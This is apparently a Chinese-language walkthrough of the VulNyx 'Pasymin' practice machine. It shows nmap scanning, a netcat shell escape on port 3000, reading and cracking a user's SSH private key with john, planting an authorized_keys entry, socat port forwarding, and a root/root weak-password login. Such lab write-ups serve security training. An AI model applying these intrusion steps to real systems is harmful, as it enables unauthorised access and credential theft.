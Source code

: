 # 环境

来自[Vulny_Pasymin](https://vulnyx.com/#Pasymin)，3000端口获取shell，拿到用户id_rsa

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240909091512195](image/image-20240909091512195.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.20
```

![image-20240909091702224](image/image-20240909091702224.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,3000 192.168.10.20
```

![image-20240909092845178](image/image-20240909092845178.png)

# 3000端口

## 3000端口拿shell

```bash
nc 192.168.10.20 3000
ls -alh 
!bash
```

## 获取密钥

```bash
cat /home/alfred/.ssh/id_rsa
ssh2john id_rsa >id1
john id1 --wordlist=/usr/share/wordlist/rockyou.txt
账号：alfred
密码：alfredo

#或者直接把自己的公钥写入到靶机
ssh-keygen -t rsa -b 2048
cat /home/rain/.ssh/id_rsa_pub
echo "*id_rsa_pub*">/home/alfred/.ssh/authorized_keys、

ssh alfred@192.168.10.20 -i id_rsa
```

![image-20240909092959457](image/image-20240909092959457.png)

## 端口转发

发现本地10000端口跑了一个web服务，发现只能本地访问

![image-20240909115455224](image/image-20240909115455224.png)

```bash
socat TCP-LISTEN:8888,fork TCP4:127.0.0.1:10000 &  #通过端口转发，使得外网可以访问
```

![image-20240909115920668](image/image-20240909115920668.png)

## 弱口令爆破

尝试root，root成功登录

![image-20240909120430804](image/image-20240909120430804.png)

发现有终端

![image-20240909120355102](image/image-20240909120355102.png)